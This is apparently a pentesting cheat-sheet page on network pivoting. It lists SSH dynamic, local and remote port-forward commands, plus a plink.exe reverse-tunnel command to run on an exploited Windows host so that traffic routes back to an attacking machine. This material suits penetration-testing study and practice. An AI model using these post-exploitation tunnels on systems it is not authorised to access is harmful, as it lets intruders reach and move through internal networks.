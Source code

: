 Useful Resource:

> https://highon.coffee/blog/ssh-meterpreter-pivoting-techniques/

> https://artkond.com/2017/03/23/pivoting-guide/

### SSH 

> ssh username@10.1.1.236 -D 1080

> ssh -L 9999:10.1.1.236:80 firefart@10.11.1.251

On the exploited/rooted machine, connect back to the attacker
All Local traffic on port 6666 will forward through the host
and be forwarded on again to port 3389 on the internal network

> ssh root@10.11.0.32 -R 6666:10.1.1.224:3389



### Using Plink:

Useful Guide: https://the.earth.li/~sgtatham/putty/0.60/htmldoc/Chapter7.html

After exploiting a Windows host, run this from the command line:
This creates a tunnel back to the attacking machine
It will forward all traffic on the attacking machine, port 4444
to Port 80 on the IP specified.

> plink.exe -ssh root@YOUR_ATTACKING_MACHINE -R 127.0.0.1:4444:10.2.2.218:80
